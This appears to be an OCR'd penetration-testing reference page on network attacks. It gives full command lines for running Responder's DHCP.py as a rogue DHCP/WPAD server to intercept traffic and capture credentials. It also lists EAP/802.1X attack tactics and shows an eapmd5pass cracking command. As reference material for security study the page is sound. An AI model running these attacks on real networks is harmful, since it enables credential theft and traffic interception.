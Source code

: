 ```
A rogue DHCP server can be set up using the DHCP script located at `/usr/share/responder/DHCP.py`. This is useful for network attacks, like capturing HTTP traffic and credentials, by redirecting traffic to a malicious server. However, setting a rogue gateway is less effective since it only allows capturing outbound traffic from the client, missing the responses from the real gateway. Instead, setting up a rogue DNS or WPAD server is recommended for a more effective attack.

Below are the command options for configuring the rogue DHCP server:

- **Our IP Address (Gateway Advertisement)**: Use `-i 10.0.0.100` to advertise your machine's IP as the gateway.
- **Local DNS Domain Name**: Optionally, use `-d example.org` to set a local DNS domain name.
- **Original Router/Gateway IP**: Use `-r 10.0.0.1` to specify the IP address of the legitimate router or gateway.
- **Primary DNS Server IP**: Use `-p 10.0.0.100` to set the IP address of the rogue DNS server you control.
- **Secondary DNS Server IP**: Optionally, use `-s 10.0.0.1` to set a secondary DNS server IP.
- **Netmask of Local Network**: Use `-n 255.255.255.0` to define the netmask for the local network.
- **Interface for DHCP Traffic**: Use `-I eth1` to listen for DHCP traffic on a specific network interface.
- **WPAD Configuration Address**: Use `-w “http://10.0.0.100/wpad.dat”` to set the address for WPAD configuration, assisting in web traffic interception.
- **Spoof Default Gateway IP**: Include `-S` to spoof the default gateway IP address.
- **Respond to All DHCP Requests**: Include `-R` to make the server respond to all DHCP requests, but be aware that this is noisy and can be detected.

By correctly using these options, a rogue DHCP server can be established to intercept network traffic effectively.

```python
# Example to start a rogue DHCP server with specified options
!python /usr/share/responder/DHCP.py -i 10.0.0.100 -d example.org -r 10.0.0.1 -p 10.0.0.100 -s 10.0.0.1 -n 255.255.255.0 -I eth1 -w "http://10.0.0.100/wpad.dat" -S -R
```
```
### **EAP Attacks**

Here are some of the attack tactics that can be used against 802.1X implementations:

- Active brute-force password grinding via EAP
- Attacking the RADIUS server with malformed EAP content _\*\*_(exploits)
- EAP message capture and offline password cracking (EAP-MD5 and PEAP)
- Forcing EAP-MD5 authentication to bypass TLS certificate validation
- Injecting malicious network traffic upon authenticating using a hub or similar

If the attacker if between the victim and the authentication server, he could try to degrade (if necessary) the authentication protocol to EAP-MD5 and capture the authentication attempt. Then, he could brute-force this using:

```
eapmd5pass –r pcap.dump –w /usr/share/wordlist/sqlmap.txt
```
```
### FHRP (GLBP & HSRP) Attacks 
